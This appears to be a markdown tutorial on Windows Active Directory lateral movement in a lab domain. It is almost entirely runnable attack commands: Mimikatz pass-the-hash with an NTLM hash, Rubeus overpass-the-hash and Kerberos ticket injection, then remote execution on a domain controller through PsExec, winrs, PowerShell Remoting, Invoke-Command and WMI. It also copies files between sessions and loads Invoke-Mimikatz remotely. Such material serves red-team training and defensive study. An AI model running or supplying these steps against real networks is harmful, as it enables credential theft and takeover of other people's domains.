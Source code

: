 
## Requirement

1 - First we need to run a command prompt with privileged user hash. So we need `Mimikatz` or `Rubeus`:

Use `PtH` technique on windows 10:

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:lab.local /ntlm:5b4c6335673a75f13ed948e848f00840 /run:cmd.exe"
```

Use `Over Pass The Hash (PTK)` technique on windows 11 and inject the stolen TGT into our own session:

```cmd
Rubeus.exe asktgt /domain:lab.local /user:spn /rc4:8846f7eaee8fb117ad06bdd830b7586c /ptt
```

Or when we have TGT but we want inject it:

```cmd
Rubeus.exe asktgt /domain:lab.local /user:spn /rc4:8846f7eaee8fb117ad06bdd830b7586c /outfile:ticket.kirbi

Rubeus.exe ptt /ticket:ticket.kirbi

Rubeus.exe renew /ticket:ticket.kirbi
```

verify TGT with List all current tickets:

```cmd
Rubeus.exe klist
Rubeus.exe triage
```

## Perform Lateral Movement

2- Accessing resources using the session (CMD) in which the TGT was exported:

```cmd
pushd \\dc1\c$

dir \\dc1\c$

PsExec.exe -accepteula \\dc1.lab.local cmd

# With current session:
winrs -r:dc1.lab.local "cmd /c hostname"

# With Credential
winrs -r:dc1.lab.local -u:'spn' -p:'password' "cmd /c hostname"

$session = New-PSSession -ComputerName DC1 -Credential
Enter-PSSession -Session $session
```


## WinRM

We can use Winrm protocol in different ways:

1. PS Remoting
2. winrs
3. Com Object


Key difference: PS Remoting is for PowerShell-heavy tasks like interactive shells, copy file .WinRS is for basic command execution and non interactive shells.


PS Remote is a PowerShell script that allows an attacker to remotely execute PowerShell commands on a target system.

Test WinRm is enabled or not:

```powershell
Test-NetConnection -Port 5985 -ComputerName DESKTOP-S95DUHA

Test-NetConnection -Port 5985 -ComputerName DC1
```

Method 1. Using inline credential:

```powershell
$secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential ("lab.local\spn", $secpasswd)

$session = New-PSSession -ComputerName DC1 -Credential $cred

Get-PSSession

Enter-PSSession 1 # OR -> Enter-PSSession -Session $session

calc.exe
```

Method 1. Presenting credential through a graphical environment:

```powershell
$session = New-PSSession -ComputerName DC1 -Credential

Get-PSSession

Enter-PSSession 1 # OR -> Enter-PSSession -Session $session

calc.exe
```

‍`Invoke-Command` is a cmdlet in PowerShell used with PS Remoting to execute PowerShell commands or scripts remotely on one or more computers. It relies on the WS-Management protocol (WinRM).

```powershell
# Format:
Invoke-Command -ComputerName <ComputerName> -ScriptBlock {<Command or Script>}

Invoke-Command -Computername DC1.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'

# Method 1: Run commands on remote computer with credentials
$secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("lab.local\spn", $secpasswd)
Invoke-Command -ComputerName DC1 -ScriptBlock { whoami; hostname } -Credential $cred

# Method 2: Run commands using an existing PSSession
$session = New-PSSession -ComputerName DC1 -Credential $cred
Invoke-Command -Session $session -ScriptBlock { whoami; hostname }
# Cleanup: Remove session
Remove-PSSession $session

# Upload file to remote session
Copy-Item -Path C:\Temp\PowerView.ps1 -Destination C:\Temp\ -ToSession (Get-PSSession)

# Download file from remote session
Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Temp\ -FromSession (Get-PSSession)

# Load script into remote session
Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session
```

```
# Check what hosts are trusted
Get-Item WSMan:\localhost\Client\TrustedHosts
```

## WMI

```powershell
wmic /node:192.168.8.143 /user:spn process call create "cmd.exe /c calc"
```
